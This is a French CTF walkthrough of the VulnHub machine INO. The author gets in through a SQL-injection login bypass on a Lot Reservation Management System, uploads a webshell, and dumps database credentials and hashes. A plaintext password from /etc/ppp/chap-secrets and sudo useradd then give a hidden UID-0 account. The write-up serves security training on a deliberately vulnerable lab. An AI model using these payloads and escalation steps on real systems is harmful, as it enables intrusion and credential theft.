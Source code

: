 # Solution du CTF INO de VulnHub

L'auteur du [INO](https://vulnhub.com/entry/ino-101,601/) prévient que le premier accès est facile mais l'escalade de privilèges plus compliquée.

C'est parti pour l'habituel scan de ports :

```
Nmap scan report for 192.168.56.49
Host is up (0.00015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 deb52389bb9fd41ab50453d0b75cb03f (RSA)
|   256 160914eab9fa17e945395e3bb4fd110a (ECDSA)
|_  256 9f665e71b9125ded705a4f5a8d0d65d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Lot Reservation Management System
|_Requested resource was /lot/
|_http-server-header: Apache/2.4.38 (Debian)
```

On a donc une appli nommée *Lot Reservation Management System* qui est présente sur le serveur web.

Une recherche rapide sur exploit-db ressort une faille [Authentication Bypass ](https://www.exploit-db.com/exploits/48934) mais en regardant les détails on voit qu'il s'agit en fait d'une bête vulnérabilité SQL qui affecte le formulaire de login.

Une requête de connexion ressemble d'ailleurs à ceci :

```http
POST /lot/admin/ajax.php?action=login HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7,zh-CN;q=0.6,zh;q=0.5
Cache-Control: no-cache
Connection: keep-alive
Content-Length: 24
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=nq4hifmdouvg20o9gqo7mpk1tb
Host: 192.168.56.49
Origin: http://192.168.56.49
Pragma: no-cache
Referer: http://192.168.56.49/lot/admin/login.php
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest

username=tes&password=ee


```

J'ai branché *sqlmap* dessus mais étrangement il ne semble pas parvenir à détecter la vulnérabilité, peut être parce que le site semble étrangement instable (*fail2ban* ?)

On peut dans tous les cas bypasser l'authentification comme indiqué dans la page exploit-db en saisissant comme utilisateur et mot de passe :

```txt
' or 1=1 limit 1 -- -+
```

Une fois connecté on trouve différents points où il est possible d'uploader un fichier et aucune vérification sur le type du fichier ne semble être présente. La page *System Settings* est une bonne candidate à l'exploitation puisqu'on peut obtenir l'URL du fichier que l'on vient d'uploader en regardant le code source de la page.

On se sert de notre webshell pour uploader reverse-ssh et on peut ainsi continuer avec un PTY :)

En regardant la liste des process on retrouve effectivement *fail2ban* qui a su faire son boulot correctement.

L'appli web a ses identifiants de BD stockés dans un fichier *db_connect.php* :

```php
<?php 

$conn= new mysqli('localhost','lot','lot','lot_db')or die("Could not connect to mysql".mysqli_error($con));
```

Dans la base SQL un seul utilisateur dont le mot de passe hashé en MD5 est *admin123* :

```sql
www-data@ino:/var/www/html/lot/admin$ mysql -u lot -p lot_db
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 27584
Server version: 10.3.23-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [lot_db]> show tables;
+------------------+
| Tables_in_lot_db |
+------------------+
| division         |
| lots             |
| model_houses     |
| reserved         |
| system_settings  |
| users            |
+------------------+
6 rows in set (0.001 sec)

MariaDB [lot_db]> select * from users;
+----+---------------+----------+----------------------------------+------+
| id | name          | username | password                         | type |
+----+---------------+----------+----------------------------------+------+
|  1 | Administrator | admin    | 0192023a7bbd73250516f069df18b500 |    1 |
+----+---------------+----------+----------------------------------+------+
1 row in set (0.000 sec)
```

Sur le système on remarque l'existence d'un compte Unix baptisé *ppp* qui dispose d'un flag dans son *local.txt* :

`f29cea45f473ebfa834885c4ff70ec1a`

## Damn

A partir de là ça a été effectivement très long de trouver le chemin vers l'utilisateur ppp ou root.

LinPEAS ne remontait rien d'intéressant et [pspy: Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy) n'avait rien à dire non plus.

J'ai remarqué la présence d'une autre appli web sur le système et j'ai fouillé dans la base pour trouver d'autres identifiants :

```sql
MariaDB [ino]> select username, password from ino_user;
+-----------+--------------------------------------------------------------+
| username  | password                                                     |
+-----------+--------------------------------------------------------------+
| inoerp    | $2y$10$3JUPAxEZlXCilIXNFYw8E.gpZo5DTBPANCDcJ8FchR2ua9DI/cFNq |
| admin     | $2y$10$/WO8Ymjdlqi9EkCwFsacTecUTcANOPmDJF4D6hQwxhnvWXIGNibUu |
| ladmin    | $2y$10$IGPuWvc8UzbgZF.mlIrU1uLtkE/f1UZnT.F6Q1H3ab8z9RVF0CL22 |
| buyer     | $2y$10$ayQHbI49LnalTyF6eCEOp.bOMzRz5E/VnuAxB3yvgfJo06B8lJYoO |
| ani.india | $2y$10$X5cFYAhNsTdp36jXz40aAOI7ZxqXmnWAuT/6lCbI9fehUxj5SyI4i |
| newuser1  | $2y$10$jqavMFfmQzDN5TbqS9AveuZWPC.udVH4r55Yv.Ya4bOh1tmyHz0MK |
+-----------+--------------------------------------------------------------+
6 rows in set (0.001 sec)
```

Mauvaise nouvelle, c'est du bcrypt... j'ai laissé tourner un peu puis j'ai abandonné.

J'ai finalement cherché des références à *ppp* dans le dossier /etc.

```shellsession
www-data@ino:/etc$ grep -l -r ppp . 2> /dev/null 
./passwd-
./ppp/chap-secrets
./ppp/ip-up.d/0000usepeerdns
./ppp/ip-up
./ppp/ipv6-up
./ppp/options
./ppp/ip-down.d/0000usepeerdns
./ppp/ipv6-down
./ppp/ip-down
./group-
./subgid
./subuid
./passwd
./init.d/pppd-dns
./group
./logrotate.d/ppp
```

On a ce fichier *chap-secrets* qui ne devrait pas être lisible :

```shellsession
www-data@ino:/etc$ cat /etc/ppp/chap-secrets 
# Secrets for authentication using CHAP
# client        server  secret                  IP addresses
ppp     *       ESRxd7856HVJB   *
```

Le mot de passe permet de se connecter à cet utilisateur qui a une permission sudo.

```shellsession
ppp@ino:/etc$ sudo -l
Matching Defaults entries for ppp on ino:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ppp may run the following commands on ino:
    (root) NOPASSWD: /usr/sbin/useradd *
ppp@ino:/etc$ sudo /usr/sbin/useradd -o -u 0 -g 0 -d /root -p '$1$dLrd6la0$eLkYsdbwM3iplQ8HyAe69/' devloop
ppp@ino:/etc$ su devloop
Password:
# cd /root
# ls
proof.txt
# cat proof.txt
21bae0a12690199cde7a65bff57723a5
```

Le hash spécifié pour *adduser* a été généré avec `openssl passwd -1 -stdin`

Ce que je n'ai pas aimé sur ce CTF c'est que l'auteur réutilise un compte système avec des fichiers qui sont déjà par défaut sur le système (*ppp* correspond à *Point to Point Protocol*), ce qui rend compliqué de discerner ce qui est normal et ce qui ne l'est pas (on retrouve le dossier */etc/ppp/* sur tous les systèmes Unix).
